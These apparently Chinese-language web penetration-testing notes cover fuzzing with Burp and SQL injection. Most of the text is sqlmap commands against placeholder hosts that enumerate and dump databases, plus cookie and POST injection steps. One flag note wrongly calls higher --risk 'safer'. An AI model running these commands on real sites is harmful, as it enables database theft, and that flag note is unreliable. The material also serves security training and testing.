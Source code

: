 Fuzz可以发现应用程序中没有被引用但是确实是可以访问的页面。
Discover Content是Burp中专门用于此目的的工具。
Burp Intruder也可以通过字典攻击来实施强制浏览(通常是在url参数和文件路径部分进行修改)，爆破、注入等。
FuzzDB包含一些用于此目的的非常牛逼的字典。

### 2.挖掘漏洞

#### 2.1 SQL注入

初步测试：见框就上，加 and 1=1、and 1=2、and 2=1 or 

抓包爆破常用SQL注入payload字典，上burp intruder。

注入六连：

1. sqlmap -u "http://www.xx.com?id=x" 查询是否存在注入点

2. --dbs 检测站点包含哪些数据库
3. --current-db 获取当前的数据库名
4. --tables -D "db_name" 获取指定数据库中的表名 -D后接指定的数据库名称
5. --columns -T "table_name" -D "db_name" 获取数据库表中的字段
6. --dump -C "columns_name" -T "table_name" -D "db_name" 获取字段的数据内容

- **cookie注入**

```
sqlmap -u "http://www.xx.com/xxx.asp" --cookie "id=XXX cookie" --level 2
```

- **post注入**

  步骤如下：

  1. 打开burpsuite获取拦截信息（post），然后右键保存文件（post.txt）到指定目录下。

  2. 运行sqlmap并执行如下命令加载文件：

     `sqlmap -r post.txt -p "username"`

     -p指定参数（即拦截的post请求中表单提交的用户名或密码等name参数）

     自动获取表单：--forms自动获取表单

     例如：`sqlmap -u http://www.xx.com/login.asp --forms`

     指定参数搜索：--data

     例如：`sqlmap -u http://www.xx.com/login.asp --data "username=1"`

```
--purge  【重新扫描（--purge 删除原先对该目标扫描的记录】
--tables 【获取表名】
--dbs    【检测站点包含哪些数据库】
--current-db   【获取当前的数据库名】
--current-user 【检测当前用户】
--is-dba 【判断站点的当前用户是否为数据库管理员】
--batch  【默认确认，不询问你是否输入】
--search 【后面跟参数 -D -T -C 搜索列（C），表（T）和或数据库名称（D）】
--threads 10 【线程，sqlmap线程最高设置为10】
--level 3   【sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP Cookie头的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。最高为5】
--risk 3 【执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全】
-v 【详细的等级(0-6)
0：只显示Python的回溯，错误和关键消息。
1：显示信息和警告消息。
2：显示调试消息。
3：有效载荷注入。
4：显示HTTP请求。
5：显示HTTP响应头。
6：显示HTTP响应页面的内容】

--privileges 【查看权限】
```